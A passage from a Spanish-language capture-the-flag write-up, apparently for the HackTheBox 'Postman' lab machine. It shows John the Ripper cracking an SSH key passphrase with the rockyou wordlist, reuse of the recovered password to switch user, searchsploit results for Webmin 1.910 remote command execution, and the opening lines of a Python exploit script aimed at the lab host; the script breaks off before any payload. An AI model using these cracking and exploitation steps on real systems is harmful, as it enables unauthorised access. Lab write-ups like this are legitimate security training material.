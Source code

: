 Y con el diccionario **rockyou.txt**, obtendremos la contraseña:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)     
1g 0:00:00:00 DONE (2025-08-11 11:23) 4.545g/s 1121Kp/s 1121Kc/s 1121KC/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Si hacemos `su Matt` y ponemos esa contraseña funciona. Por lo que ahora toca escalar a **root:**

```bash
Matt@Postman:~$ cat user.txt 
3cd169f4288a4e3...
```

Sabiendo que tenemos estas credenciales, podríamos probarlas en el **Webmin**:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FGP1FxlLtnBjnXqkWukYX%2Fimage.png?alt=media&#x26;token=e34f2fdd-0fcd-4bac-8fe6-5b690671f191" alt=""><figcaption></figcaption></figure>

Sabiendo que la versión es la **1.910** podemos buscar algun exploit:

```bash wrap=false
❯ searchsploit Webmin 1.910
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                                                               | linux/remote/46984.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                                        | linux/webapps/47330.rb
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

El primero es interesante, lo vamos a pasar a python de la siguiente forma:

```python wrap=false title="Script de S4vitar"
#!/usr/bin/python3

from pwn import *
import requests, urllib3, pdb, signal, sys, time

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "https://10.10.10.160:10000/session_login.cgi"
update_url = "https://10.10.10.160:10000/package-updates/update.cgi"

def makeRequest():
    
    urllib3.disable_warnings()
```